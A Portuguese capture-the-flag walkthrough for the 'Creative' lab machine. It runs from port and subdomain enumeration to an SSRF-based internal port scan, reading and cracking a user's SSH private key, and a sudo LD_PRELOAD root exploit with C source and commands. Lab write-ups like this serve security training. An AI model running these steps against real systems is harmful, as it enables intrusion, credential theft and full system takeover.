










# _**Creative CTF**_


## _**Enumeração**_ 
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```


Parece que temos uma página web, vamos investigar  
Temos que adicionar o endereço IP e _creative.thm_ em _/etc/hosts_  
Agora, vamos realizar um scan com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url creative.thm -w ../seclists/Discovery/Web-Content/common.txt
> ```


Parece que não temos muitas opções de exploração  
Vamos tentar procurar por subdomínios com <mark>ffuf</mark>
> ```bash
> ffuf -w ../seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://creative.thm/ -H "Host:FUZZ.creative.thm" -fw 6
> ```


Temos um domínio  
Visitando, temos a seguinte página  



Podemos testar alguns diretórios como _/etc/passwd_  
Após, temos a mensagem **dead** de retorno  
Parece que não iremos conseguir muito tentando assim  

Na tentativa de _http://127.0.0.1/_, temos uma página de retorno!  
Este campo, permite inserir uma URL arbitrária para testar se o site está online  
Vamos tentar buscar por portas internas com esta URL específica ao invés de URLs genéricas
> ```bash
> seq 65535 > ports.txt
> ffuf -w ports.txt -u http://beta.creative.thm/ -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "url=http://127.0.0.1:FUZZ" -fw 3
> ```


Parece que temos uma porta  
Vamos investigar  
É um listamento do diretório **/**  


## _**Ganhando acesso e Escalando privilégios**_
Investigando essa nova descoberta, vemos que é possível acessar: _http://127.0.0.1:1337/home/saad/.ssh/id_rsa_  
Isso quer dizer que podemos recuperar a chave ssh de **saad** e realizar login via SSH  
Primeiro, vamos:
> ```bash
> ssh2john id_rsa > file.hash
> john file.hash -w=../rockyou.txt
> ```
Damos as permissões necessárias e realizamos login  



Buscando escalar privilégios de alguma maneira, encontramos o seguinte no arquivo _.bash_history_  
Temos a senha do usuário **saad**  
Tentando executar o comando ```sudo -i```, temos que ele não pode  
Vamos buscar outros meios de escalar privilégios  
Executando o comando ```sudo -l```, temos o seguinte:  



Você tem permissão para executar _/usr/bin/ping_ como _root_, o que permite uma escalada de privilégio via abuso de sudo e LD_PRELOAD, já que o sudo mantém a variável LD_PRELOAD  
O código em C abaixo nos permite fazer isso  
> ```bash
> #include <stdio.h>
> #include <stdlib.h>
> #include <unistd.h>
> 
> void _init() {
>     unsetenv("LD_PRELOAD");
>     setgid(0);
>     setuid(0);
>     system("/bin/bash");
> }
> ```

Vamos compilar o código com o comando abaixo:
> ```bash
> gcc -fPIC -shared -o root.so exploit.c -nostartfiles
> ```
Por fim, executamos o comando abaixo para ganhar _root_
> ```bash
> sudo LD_PRELOAD=/path/to/root.so /usr/bin/ping
> ```


Basta ir atrás das flags agora!
